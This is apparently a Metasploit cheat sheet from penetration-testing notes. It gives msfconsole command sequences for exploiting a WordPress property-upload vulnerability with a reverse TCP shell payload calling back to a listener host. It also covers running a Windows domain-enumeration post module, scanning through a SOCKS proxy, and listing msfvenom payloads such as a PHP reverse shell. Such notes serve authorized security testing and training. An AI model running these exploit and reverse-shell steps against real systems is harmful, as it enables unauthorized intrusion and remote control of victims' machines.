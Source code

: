     # run exploit as job
    exploit -j

	# additional commands
	https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

### use case: Common exploitation example

    $ ./msfconsole -L
    msf > use exploit/unix/webapp/wp_property_upload_exec
    msf > info
    msf > show options 
    msf > set TARGETURI /
    msf > set RHOST 192.168.1.197
    msf > set TARGET 1
    msf > setg Proxies HTTP:127.0.0.1:8081
    msf > set PAYLOAD linux/x86/shell/reverse_tcp
    msf > show options 
    msf > show advanced
    msf > set LHOST 192.168.1.137
    msf > exploit
    press ^Z to background current session

### use case: running post module
```
meterpreter> background
msf> use post/windows/gather/enum_domain
msf> set SESSION 1
msf> run
```

### use case: running Metasploit scan via socks proxy server (e.g. after ssh -D)

```
# Testing 135/tcp   open  msrpc (Microsoft Windows RPC):
setg Proxies socks4:127.0.0.1:1234
use auxiliary/scanner/dcerpc/endpoint_mapper
set RHOSTS <ip>
run
```

## Payloads

### Basic usage

```
# show payloads
msfvenom -l
# show formats
msfvenom --help-formats
# show payload options
msfvenom -p php/reverse_php --payload-options | less
```
